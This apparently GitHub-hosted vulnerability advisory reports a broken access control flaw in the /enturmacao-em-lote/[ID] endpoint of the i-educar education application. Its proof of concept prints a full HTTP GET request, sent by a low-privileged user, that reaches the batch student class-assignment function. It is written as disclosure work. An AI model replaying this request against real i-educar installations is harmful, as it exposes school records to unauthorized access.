 # Broken Access Control  in `/enturmacao-em-lote/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/enturmacao-em-lote/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /enturmacao-em-lote/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/7f417943-7e71-4cd7-907f-1284233af2b5" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/646ca886-c2cd-4a3a-b21d-0f595fa403ed" />

    
2. Send the following request::

```
GET /enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch assign students to classes. And, this user, should not do that.

<img width="1556" height="667" alt="Pasted image 20250821194402" src="https://github.com/user-attachments/assets/e883732d-0495-4a57-b197-aa598d11fbc2" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
